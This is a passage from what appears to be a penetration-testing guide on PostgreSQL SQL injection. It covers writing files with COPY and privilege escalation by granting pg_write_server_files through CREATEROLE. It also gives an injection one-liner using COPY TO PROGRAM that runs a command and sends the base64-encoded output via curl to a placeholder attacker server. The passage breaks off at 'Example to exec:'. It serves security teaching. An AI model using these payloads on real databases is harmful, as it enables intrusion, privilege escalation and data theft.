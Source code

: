 ### Simple File Writing

Only **super users** and members of **`pg_read_server_files`** can use copy to write files.

```sql
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```

{% hint style="warning" %}
Remember that if you aren't super user but has the **`CREATEROLE`** permissions you can **make yourself member of that group:**

```sql
GRANT pg_write_server_files TO username;
```

[**More info.**](../../../network-services-pentesting/pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Remember that COPY cannot handle newline chars, therefore even if you are using a base64 payload y**ou need to send a one-liner**.\
A very important limitation of this technique is that **`copy` cannot be used to write binary files as it modify some binary values.**

### **Binary files upload**

However, there are **other techniques to upload big binary files**.\
[**Read this page to learn how to do it.**](big-binary-files-upload-postgresql.md)

## <img src="../../../.gitbook/assets/i3.png" alt="" data-size="original">

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## RCE

### **RCE to program**

Since[ version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), only **super users** and member of the group **`pg_execute_server_program`** can use copy for RCE (example with exfiltration:

```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```

Example to exec:
